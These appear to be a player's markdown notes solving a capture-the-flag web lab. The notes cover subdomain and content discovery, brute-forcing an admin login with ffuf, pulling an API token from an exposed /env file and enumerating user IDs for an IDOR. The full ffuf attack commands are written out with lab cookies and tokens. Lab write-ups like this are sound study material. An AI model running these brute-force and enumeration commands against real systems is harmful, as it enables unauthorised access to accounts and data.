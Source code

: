 1. [x] Subdomain Discovery
	**cmd**: ``
	1. Using `dnsrecon`
		1. www.vulnbegin.co.uk
		2. server.vulnbegin.co.uk *(has a flag and says `Unauthenticated`)* ![Screenshot](Pasted%20image%2020220527021257.png)
	2. Searching on [crt.sh](https://crt.sh/?q=vulnbegin.co.uk)
		1. v64hss83.vulnbegin.co.uk *(has a flag)*
2. [x] Content Discovery
	1. Using `ffuf`
		1. /cpadmin/
		2. /js/
		3. /css/
		4. /robots.txt/
	2. From `/robots.txt`
		1. /secret_d1rect0y/ *(contains a flag)*
3. [x] Bruteforcing `/cpadmin` using `ffuf`
	**cmd**: `ffuf -w ~/wordlists/usernames.txt -X POST -d "username=FUZZ&password=x" -t 1 -p 0.1 -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -H "Content-Type: application/x-www-form-urlencoded" -u http://www.vulnbegin.co.uk -fr 'Username is invalid'`
	1. Found `admin` valid
	2. Bruteforced the password and found `159753` working
4. [x] Found that there is an API key and a config file somewhere in the server, so we need a 2nd round of content discovery **with the token we had after logging into the admin account**![Screenshot](Pasted%20image%2020220527012943.png)
	**cmd**: `ffuf -w ~/wordlists/content.txt -t 1 -p 0.1 -H "Cookie: token=2eff535bd75e77b62c70ba1e4dcb2873; ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -u http://www.vulnbegin.co.uk/cpadmin/FUZZ -mc all -fc 404`
5. [x] Found `/env` and now investigating it. Found an API token `X-Token: 492E64385D3779BC5F040E2B19D67742`
6. [x] Recon the [API](http://server.vulnbegin.co.uk)with the *token* we found.
	1. Content discovery round 3 *to the API*.
		**cmd**: ``
	2. Found `/robot.txt` that has `Disallow: /s3cr3T_d1r3ct0rY/`![Screenshot](Pasted%20image%2020220527024741.png)
	3. Found `/user`![Screenshot](Pasted%20image%2020220527024821.png)
	4. Found `/user/27/info` that has a flag
7. [x] Possible IDOR? Search the space of user IDs.
	**cmd**: `seq 1 100 | ffuf -w - -t 1 -p 0.1 -H "X-Token: 492E64385D3779BC5F040E2B19D67742" -H "Cookie: ctfchallenge=eyJkYXRhIjoiZXlKMWMyVnlYMmhoYzJnaU9pSjRZM3A2TTNKMmR5SXNJbkJ5WlcxcGRXMGlPbVpoYkhObGZRPT0iLCJ2ZXJpZnkiOiJhYmYwNzRmYWI0Yzk2YjA3OTM4ZDcxNGQ0N2VhZWIzNSJ9" -u http://server.vulnbegin.co.uk/user/FUZZ -mc all -fc 404`![Sceenshot](Pasted%20image%2020220527025659.png)
	1. Tried accessing the endpoint of user 5 but it's forbidden.![Screenshot](Pasted%20image%2020220527030229.png)
	2. Tried accessing the other endpoint `/5/info` the was previously found. ![Screenshot](Pasted%20image%2020220527030312.png) Then got the last flag.